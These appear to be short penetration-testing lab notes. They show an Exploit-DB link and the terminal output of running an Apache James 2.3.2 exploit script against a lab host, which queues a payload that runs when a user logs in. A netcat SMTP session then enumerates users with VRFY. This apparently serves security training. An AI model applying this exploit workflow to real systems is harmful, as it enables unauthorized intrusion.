

https://www.exploit-db.com/exploits/35513/
root@kali:~/gen/msf# python jamesserver.py 10.11.1.72
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
root@kali:~/gen/msf#
root@kali:~/gen/smtp# nc -nv 10.11.1.72 25
(UNKNOWN) [10.11.1.72] 25 (smtp) open
220 beta SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 26 Dec 2016 20:56:05 -0500 (EST)
vrfy root
google **escape from shelcratraz**
